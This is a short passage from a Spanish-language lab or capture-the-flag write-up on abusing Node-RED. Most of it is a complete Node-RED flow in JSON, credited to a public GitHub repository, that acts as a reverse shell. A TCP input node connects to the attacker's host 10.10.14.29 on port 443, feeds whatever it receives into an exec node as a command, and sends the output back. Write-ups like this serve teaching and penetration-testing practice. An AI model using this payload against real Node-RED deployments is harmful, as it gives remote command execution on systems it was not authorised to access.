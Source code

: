 ## Vulnerability Assessment {-}

### Node-RED vulnerability {-}

Desde un node red, hay
possibilidades de entablar una reverse shell con los nodes TCP y EXEC pero como todas las instucciones se entablan con JSON, tiramos de un exploit
en el github de [valkyrix](https://github.com/valkyrix/Node-Red-Reverse-Shell/blob/master/node-red-reverse-shell.json). Lo copiamos en un fichero
y modificamos el **host** y el **port**



```bash
[
  {
    "id": "7235b2e6.4cdb9c",
    "type": "tab",
    "label": "Flow 1"
  },
  {
    "id": "d03f1ac0.886c28",
    "type": "tcp out",
    "z": "7235b2e6.4cdb9c",
    "host": "",
    "port": "",
    "beserver": "reply",
    "base64": false,
    "end": false,
    "name": "",
    "x": 786,
    "y": 350,
    "wires": []
  },
  {
    "id": "c14a4b00.271d28",
    "type": "tcp in",
    "z": "7235b2e6.4cdb9c",
    "name": "",
    "server": "client",
    "host": "10.10.14.29",
    "port": "443",
    "datamode": "stream",
    "datatype": "buffer",
    "newline": "",
    "topic": "",
    "base64": false,
    "x": 281,
    "y": 337,
    "wires": [
      [
        "4750d7cd.3c6e88"
      ]
    ]
  },
  {
    "id": "4750d7cd.3c6e88",
    "type": "exec",
    "z": "7235b2e6.4cdb9c",
    "command": "",
    "addpay": true,
    "append": "",
    "useSpawn": "false",
    "timer": "",
    "oldrc": false,
    "name": "",
    "x": 517,
    "y": 362.5,
    "wires": [
      [
        "d03f1ac0.886c28"
      ],
      [
        "d03f1ac0.886c28"
      ],
      [
        "d03f1ac0.886c28"
      ]
    ]
  }
]
```

